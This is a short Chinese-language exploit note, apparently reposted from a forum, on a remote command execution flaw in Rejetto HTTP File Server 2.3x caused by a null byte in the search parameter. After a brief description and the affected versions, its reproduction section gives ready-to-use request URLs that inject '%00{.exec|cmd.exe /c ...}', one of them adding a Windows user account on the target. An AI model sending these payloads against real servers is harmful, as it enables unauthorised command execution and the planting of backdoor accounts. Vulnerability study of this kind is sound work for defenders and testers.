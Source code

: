 # Hfs 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2966](https://www.zhihuifly.com/t/topic/2966)

# Hfs 远程命令执行漏洞

## 一、漏洞简介

Rejetto HTTP File Server 2.3c及之前版本中的parserLib.pas文件中的‘findMacroMarker’函数中存在安全漏洞，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的‘%00’序列利用该漏洞执行任意程序。

## 二、漏洞影响

2.3c以前的2.3x版本

## 三、复现过程

```
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c [Command-String].} 
```

```
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.} 
```